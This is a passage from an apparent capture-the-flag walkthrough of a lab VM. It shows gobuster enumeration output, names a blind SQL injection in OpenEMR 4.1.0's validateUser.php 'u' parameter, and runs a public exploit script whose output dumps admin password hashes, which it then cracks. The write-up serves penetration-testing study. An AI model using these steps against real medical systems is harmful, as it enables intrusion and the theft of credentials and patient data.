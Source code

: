 ```bash
2021/06/04 21:12:16 Starting gobuster in directory enumeration mode
===============================================================
/index                (Status: 200) [Size: 5031]
/images               (Status: 301) [Size: 344] [--> http://192.168.34.130/images/]
/css                  (Status: 301) [Size: 341] [--> http://192.168.34.130/css/]   
/js                   (Status: 301) [Size: 340] [--> http://192.168.34.130/js/]    
/vendor               (Status: 301) [Size: 344] [--> http://192.168.34.130/vendor/]
/favicon              (Status: 200) [Size: 1406]                                   
/robots               (Status: 200) [Size: 620]                                    
/fonts                (Status: 301) [Size: 343] [--> http://192.168.34.130/fonts/] 
/gitweb               (Status: 301) [Size: 344] [--> http://192.168.34.130/gitweb/]
/phpMyAdmin           (Status: 403) [Size: 59]                                     
/server-status        (Status: 403) [Size: 1000]                                   
/server-info          (Status: 403) [Size: 1000]                                   
/openemr              (Status: 301) [Size: 345] [--> http://192.168.34.130/openemr/]
                                                                                    
===============================================================
2021/06/04 21:27:29 Finished
===============================================================
```
In any case, note that this time the search found /openemr, which is an OpenEMR web application for medical practices with the login page accessible publically.  
The version of the application is 4.1.0, which is vulnerable to unauthenticated blind SQL injection.

### 3. Retrieve usernames and passwords
The vulnerable parameter in the application is at: "http://192.168.34.130/openemr/interface/login/validateUser.php?u=". This "u" parameter can be injected into, and while it won't provide any on-screen feedback to the attacker, use of the sleep() function allows database information to be extracted.
The exploit at https://www.exploit-db.com/exploits/49742 uses a sleep timer of 3 seconds to pull the data out of the database.
```bash
┌──(kali㉿kali)-[]-[~/Desktop]
└─$ python3 exploit.py                                                                                       

   ____                   ________  _______     __ __   ___ ____ 
  / __ \____  ___  ____  / ____/  |/  / __ \   / // /  <  // __ \
 / / / / __ \/ _ \/ __ \/ __/ / /|_/ / /_/ /  / // /_  / // / / /
/ /_/ / /_/ /  __/ / / / /___/ /  / / _, _/  /__  __/ / // /_/ / 
\____/ .___/\___/_/ /_/_____/_/  /_/_/ |_|     /_/ (_)_(_)____/  
    /_/
    ____  ___           __   _____ ____    __    _               
   / __ )/ (_)___  ____/ /  / ___// __ \  / /   (_)              
  / /_/ / / / __ \/ __  /   \__ \/ / / / / /   / /               
 / /_/ / / / / / / /_/ /   ___/ / /_/ / / /___/ /                
/_____/_/_/_/ /_/\__,_/   /____/\___\_\/_____/_/   exploit by @ikuamike 

[+] Finding number of users...
[+] Found number of users: 2
[+] Extracting username and password hash...
admin:3863efef9ee2bfbc51ecdca359c6302bed1389e8
medical:ab24aed5a7c4ad45615cd7e0da816eea39e4895d 
```
These passwords crack to give two credential sets: `admin:ackbar` and `medical:medical`
